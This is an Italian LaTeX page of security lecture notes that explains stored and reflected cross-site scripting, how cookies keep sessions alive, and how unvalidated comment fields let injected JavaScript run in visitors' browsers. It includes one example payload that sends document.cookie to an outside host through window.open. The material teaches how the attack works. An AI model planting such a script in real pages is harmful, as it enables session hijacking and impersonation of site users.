 \documentclass[12pt]{article}
\begin{document}
			\subsubsection{Cross-site-scripting (XSS) stored }
				Un attacco XSS è basato sulla possibilità di \textbf{inserire del codice malizioso all'interno di pagine web esterne}, in modo tale che gli utenti che si collegano a tali pagine sono indotti ad eseguirlo.
				L'attacco può essere:
				\begin{itemize}
					\item \textbf{stored }: il codice persiste nella pagina web
					\item \textbf{reflected}: il codice viene visualizzato in una messaggio temporaneo di errore
				\end{itemize}	
				La conseguenza è che l'utente si collega ad una pagina web di cui si fida ma riceve del codice malevole che viene eseguito \textbf{in locale sul suo browser}. L'attaccante cercherà di inserire codice eseguibile all'interno del codice HTML.\\
				Ricordiamo il funzionamento dei cookies:
				\begin{itemize}
					\item HTML è \textit{stateless} ovvero non si conservano informazioni relative ad una connessione, ognuna di queste è scorrelata dalla precedente.
					\item Per evitare di reinserire utente e pass ad ogni connessione si utilizzano i cookies.
					\item è un'informazione che il server invia al browser dopo la prima connessione e che il browser reinvia al server ad ogni azione
					\item In questo modo il server riconosce il browser e gli permette di saltare le autenticazioni per il tempo di validità dei cookies.
				\end{itemize}
				\textbf{Senza efficace validazione degli input} un attaccante può inserire degli script in javascript all'interno di uno script di echo (scritto per esempio in php) per \textbf{inviare il cookie dell'utente invece che al sito di destinazione ad un sito dell'attaccante}.\\
				<script>window.open(’http://google.it?
				cookie=’+document.cookie)</script>\\
				Una possibile \textbf{applicazione} potrebbe riguardare siti nei quali è possibile inserire commenti, se la validazione degli input non è fatta in modo oculato un attaccante può aggiungere codice javascript alla pagina.  \textbf{Tutte le persone che successivamente caricheranno quella pagina eseguiranno il codice lasciato nel commento.} Se il sito gestisce dei cookie è questi ultimi sono \textbf{reindirizzati verso l'attaccante, che li può utilizzare per accedere ai servizi con l'identità di un utente del sito di partenza}.
\end{document}
